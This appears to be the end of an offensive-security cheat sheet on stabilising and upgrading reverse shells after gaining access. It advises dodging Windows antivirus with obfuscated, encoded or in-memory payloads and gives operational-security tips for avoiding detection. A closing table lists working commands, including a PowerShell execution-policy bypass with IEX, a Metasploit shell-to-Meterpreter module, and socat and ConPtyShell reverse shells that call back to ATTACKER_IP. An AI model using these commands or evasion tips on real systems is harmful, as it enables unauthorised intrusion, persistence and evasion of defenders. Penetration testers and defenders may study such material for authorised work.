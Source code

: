 ### Shell Dying After Upgrade
- Try different upgrade methods
- Check system resource limitations
- Use nohup or disown to prevent termination

### Windows Antivirus Blocking
- Use obfuscated payloads
- Consider in-memory execution techniques
- Use encrypted/encoded payloads

## OPSEC Considerations

1. **Limited Command Execution**: Execute only necessary commands
2. **Clean Up**: Remove uploaded files when finished
3. **Process Migration**: Migrate to stable, long-running processes
4. **Log Awareness**: Be aware of logs generated by your activities
5. **Session Management**: Close sessions properly when done

## Quick Reference

| Shell Type | Upgrade Method | Command |
|------------|---------------|---------|
| Bash (Linux) | Python PTY | `python -c 'import pty; pty.spawn("/bin/bash")'` |
| Windows CMD | PowerShell | `powershell -ep bypass -c "IEX(...)"` |
| Basic Shell | Meterpreter | `post/multi/manage/shell_to_meterpreter` |
| Netcat Shell | Socat | `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:PORT` |
| PowerShell | ConPtyShell | `Invoke-ConPtyShell ATTACKER_IP PORT` |


